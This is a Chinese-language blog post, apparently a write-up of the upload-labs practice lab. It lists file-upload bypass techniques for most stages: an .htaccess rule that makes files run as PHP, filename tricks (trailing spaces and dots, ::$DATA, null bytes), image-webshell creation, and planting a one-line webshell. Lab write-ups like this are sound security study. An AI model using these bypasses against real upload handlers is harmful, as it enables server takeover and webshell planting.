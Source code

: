 ```yaml
---
title: 
date: 2017-5-27 8:50:30
tags: Web安全
toc: true
---
```


> link https://github.com/c0ny1/upload-labs

## Pass-04
---
首先上传 .htaccess 文件，文件内容, 这里```</FilesMatch>```闭合标签必须换行，不能挨着```SetHandler application/x-httpd-php```
```
<FilesMatch "ht"> 
SetHandler application/x-httpd-php
</FilesMatch>
```
win10 创建 .htaccess 文件，名字不能为空，可以在文本里另存为，名字 ".htaccess" 用引号裹起来.

再上传 名字有 ht 的文件，比如 ht，内容为一句话马，c刀连接即可。

## Pass-05
---
大小写

## Pass-06
---
```Content-Disposition: form-data; name="upload_file"; filename="1.php "```文件命名加空格

## Pass-07
---
文件名最后加点.

## Pass-08
---
文件名加::$DATA

## Pass-09
---
文件名为 1.php. . 两点之间有空格

## Pass-10
---
文件名为 pphphp

## Pass-11
---
需要关闭magic_quotes_gpc

请求行改为

POST /upload-labs/Pass-11/index.php?save_path=../upload/1.php%00 HTTP/1.1

文件名 

Content-Disposition: form-data; name="upload_file"; filename="1.jpg"

## Pass-12
---
这个在 12.php 后加空格用 burp 在 post data hex 中把 20 改为 00
```
Content-Disposition: form-data; name="save_path"

../upload/12.php
--------------------------
Content-Disposition: form-data; name="upload_file"; filename="1.jpg"
```

## Pass-13
---
copy  2.png/b + 1.txt 3.png 生成图片马，图片位置和 txt 位置必须先图片后 txt, 上传路径得抓包或直接F12,配合着解析漏洞或 htaccess 等解析

## Pass-17
---
上传名字改为

Content-Disposition: form-data; name="upload_file"; filename="1.php:.jpg"

上传一个空文件 1.php

再上传名字改为 1.<<< 

Content-Disposition: form-data; name="upload_file"; filename="1.<<<"

其中 < 代表 * 任意字符，且可以覆盖文件内容

## Pass-18
---
同上

## 总结
---
其他思路是上传 html 类文件导致 xss csrf 的利用，doc 等 win office 的 RCE , 配合包含漏洞，解析问题，php_cgi, htaccess 解析 , [上传gif文件并 用src属性引用导致的xss](https://tom0li.github.io/upload-xss/)
